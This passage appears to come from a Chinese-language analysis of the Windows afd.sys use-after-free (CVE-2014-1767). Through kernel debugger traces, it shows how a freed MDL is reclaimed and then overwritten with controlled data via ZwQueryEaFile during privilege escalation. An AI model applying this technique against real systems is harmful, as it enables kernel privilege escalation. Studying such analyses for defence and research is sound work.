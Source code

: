 ```
87f800a0  00610072 0020006d 00690046 0065006c
87f800b0  005c0073 0061004a 00610076 006a005c
87f800c0  00650072 002e0031 002e0038 005f0030
87f800d0  00360036 0062005c 006e0069 006a005c
```

可以看到ntdll!ZwCreateWorkerFactory重新占用了MDL的地址
### Step 3
这一步之前分析过原因，从调试数据看跳到了Exception Handler

```
kd>
eax=880a7c24 ebx=8717d348 ecx=00000000 edx=00000001 esi=880a7c10 edi=fffffff0
eip=8999088c esp=9365ba0c ebp=9365ba44 iopl=0         ov up ei ng nz na pe cy
cs=0008  ss=0010  ds=0023  es=0023  fs=0030  gs=0000             efl=00000a87
afd!AfdTliGetTpInfo+0x69:
8999088c ff151c429889    call    dword ptr [afd!_imp__ExAllocatePoolWithQuotaTag (8998421c)] ds:0023:8998421c={nt!ExAllocatePoolWithQuotaTag (83eb7b9f)}
kd> dds esp
9365ba0c  00000010
9365ba10  fffffff0     //0xaaaaaaa * 0x18
9365ba14  c6646641
kd> bp 8999089f        //Exception Handler
kd> p
Breakpoint 7 hit   
afd!AfdTliGetTpInfo+0x7c:
8999089f 8b65e8          mov     esp,dword ptr [ebp-18h]    
kd> u 8999089f 
afd!AfdTliGetTpInfo+0x7c:
8999089f 8b65e8          mov     esp,dword ptr [ebp-18h]
899908a2 6a01            push    1
899908a4 ff75e4          push    dword ptr [ebp-1Ch]
899908a7 e857d50100      call    afd!AfdReturnTpInfo (899ade03)
```

### Step 4
现在我们有了一个合适的UAF对象，并且已经free掉了，接下来的任务是用可控数据重写这块victim_address，EXP中使用了[ntdll.ZwQueryEaFile](https://msdn.microsoft.com/en-us/library/windows/hardware/ff961907(v=vs.85).aspx)函数做这项工作，

![图片5](https://turingsec.github.io/knowledge/posts/windows_eop_cve-2014-1767/图片5.png)

该函数第6个和第7个参数分别表示EaList(源地址)和EaListLength(MDL大小)，首先按EaListLength申请一片内存，返回victim_address，然后将EaList指向内存拷贝到victim_address，完成数据覆盖
这里有一个小问题，EXP中的EaListLength大小等于MDL(0xa0)-4，也就是0x9C，后来分析了一下ExAllocatePoolWithQuotaTag函数，发现内部做了EaListLength += 4，再去调用ExAllocatePoolWithTag，最后申请大小还是0xa0

![图片6](https://turingsec.github.io/knowledge/posts/windows_eop_cve-2014-1767/图片6.png)

```
kd> 
eax=87f80060 ebx=01ba4b98 ecx=8688ed40 edx=20206f49 esi=0000009c edi=00000000
eip=83fa3c15 esp=9f481b90 ebp=9f481c08 iopl=0         nv up ei pl nz na pe nc
cs=0008  ss=0010  ds=0023  es=0023  fs=0030  gs=0000             efl=00000206
nt!NtQueryEaFile+0xca:
83fa3c15 e8a65beaff      call    nt!memcpy (83e497c0)
kd> dds esp
9f481b90  87f80060
9f481b94  00002100
9f481b98  0000009c
kd> dd 0x2100                             //触发UAF前，申请的这片内存
00002100  00000000 000000a8 00000000 00000000
00002110  00000001 00000001 00000000 00080016
00002120  00000000 00000000 00002200 41414141
00002130  41414141 41414141 41414141 41414141
```